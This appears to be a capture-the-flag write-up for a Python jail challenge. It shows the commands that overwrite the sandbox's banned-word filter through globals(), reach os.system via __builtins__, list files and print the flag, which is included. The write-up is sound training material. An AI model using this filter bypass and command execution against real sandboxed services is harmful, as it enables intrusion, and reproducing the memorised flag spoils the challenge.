

Category: Pwn
Difficulty: Hard
Author: @ryurina (loonatic)
___________


It's an easy Python Jailbreak CTF
I assume, there is a "**banned**" variables to filter some words like "**import, os, builtins, etc...**"

So let's change the variables "**banned**"

```text
#~ nc 159.223.209.120 7778                                                                       ─╯
globals()['banned'] = "nothing"
```

Now we can use "import, os,...."
Let's list all the files in the directory

```text
globals()['banned'] = "nothing"
print(globals()["__builtins__"].__import__("os").system("ls"))
entrypoint.sh
flag.txt
jail.py
ucspi-tcp-0.88
ucspi-tcp-0.88.errno.patch
ucspi-tcp-0.88.tar.gz
>>> >>> 0
```

And now, let's **cat** the file flag.txt
Type the same command, just change **"ls"** to **"cat flag.txt"**

```text
globals()['banned'] = "nothing"
print(globals()["__builtins__"].__import__("os").system("cat flag.txt"))
EZ-CTF{P34CH_H4S_B33N_S4V3D}
>>> >>> 0
```

Eureka!!! Peach has been saved !

#### Flag: EZ-CTF{P34CH_H4S_B33N_S4V3D}
